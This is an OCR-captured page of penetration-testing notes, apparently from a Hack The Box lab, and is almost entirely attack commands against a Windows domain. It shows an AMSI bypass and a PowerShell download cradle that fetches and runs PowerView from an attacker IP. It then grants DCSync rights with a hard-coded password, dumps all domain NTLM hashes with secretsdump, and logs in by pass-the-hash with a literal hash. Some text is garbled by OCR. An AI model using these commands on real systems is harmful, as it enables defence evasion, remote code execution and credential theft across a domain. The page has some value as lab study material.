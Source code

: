 # Windows

Bypass AMSI

Import PowerView first

```powershell
PS C:\Users\svc-alfresco\Documents> menu
[+] Bypass-4MSI
[+] D11-Loader
[+1 Donut-Loader
[+] Invoke-Binary
PS C:\Users\svc-alfresco\Documents> Bypass-4MST
[+] Patched! :D
PS C:\Users\svc-alfresco\Documents> iex(new-object net.webclient).
downloadstring('http://10.10.14.6/PowerView.ps1')
```



Add DCSync Rights

```powershell
$pass = convertto-securestring 'abc123!' -asplain -force
$cred = new-object system.management.automation.pscredential('htb\john', $pass)
Add-ObjectACL -PrincipalIdentity john -Credential $cred -Rights DCSync
```



GET NTLM Hashes for all domain users

```bash
secretsdump.py htb/john@10.10.10.161
```



Pass The Hash

```bash
psexec.py administrator@10.10.10.161 -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6
```
